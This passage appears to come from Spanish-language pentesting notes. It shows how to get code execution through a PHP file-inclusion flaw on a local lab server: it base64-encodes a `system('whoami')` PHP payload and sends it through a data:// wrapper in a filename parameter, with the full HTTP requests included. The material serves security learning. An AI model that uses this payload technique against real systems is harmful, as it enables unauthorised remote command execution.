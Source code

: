 ```xml

Upgrade-Insecure-Requests: 1

Sec-Fetch-Dest: document

Sec-Fetch-Mode: navigate

Sec-Fetch-Site: none

Sec-Fetch-User: ?1

Priority: u=4

```

**Nota:** en BurpSuite en la pestaña 'Decode' podemos obtener diferentes codificaciones de forma rápida y sencilla ( `PD9waHAgc3lzdGVtKCJ3aG9hbWkiKTsgPz4= --> <?php system("whoami"); ?>` )

Problema: Problema con la inyección de comandos, probamos a cambiar el código con etiquetas.

Solución `echo '<?php echo "<pre>"; system("whoami"); echo "</pre>"; ?>' | base64`

```xml
GET /?filename=data://text/plain;base64,PD9waHAgZWNobyAiPHByZT4iOyBzeXN0ZW0oIndob2FtaSIpOyBlY2hvICI8L3ByZT4iOyA/Pgo= HTTP/1.1

Host: localhost

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

DNT: 1

Sec-GPC: 1

Connection: keep-alive

Upgrade-Insecure-Requests: 1

Sec-Fetch-Dest: document

Sec-Fetch-Mode: navigate

Sec-Fetch-Site: none

Sec-Fetch-User: ?1

Priority: u=4


```

